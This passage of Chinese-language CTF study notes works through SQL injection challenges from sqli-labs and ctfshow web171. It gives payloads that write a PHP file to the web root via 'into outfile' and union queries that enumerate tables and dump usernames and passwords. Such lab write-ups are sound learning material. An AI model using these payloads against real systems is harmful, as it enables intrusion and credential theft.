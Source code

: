 ```
?sort=1 into outfile "D:\\phpstudy\\WWW\\sqli-labs\\Less-46\\test.php" lines terminated by 0x3c3f70687020706870696e666f28293b3f3e2020--+
```

<img src="图片\Snipaste_2023-01-23_16-41-58.png" alt="Snipaste_2023-01-23_16-41-58" style="zoom:80%;" />

## Less47~53

与 Less-46 思路大致相同，还是闭合 sql 是有些不一样，再是配合堆叠注入，无法使用报错注入等等

# ctfshow

## web171

### 方法一

union 联合查询

```
//拼接sql语句查找指定ID用户
$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

查询数据库，库名为 ctfshow_web

```
-1' union select 1,database(),3 --+
```

查询表，表名为 ctfshow_user

```
-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='ctfshow_web')--+
```

查询表中字段名，为 id,username,password

```
-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='ctfshow_user')--+
```

查询 ctfshow_user 表中的数据

```
-1' union select 1,2,(select group_concat(username,password) from ctfshow_web.ctfshow_user)--+
```

### 方法二
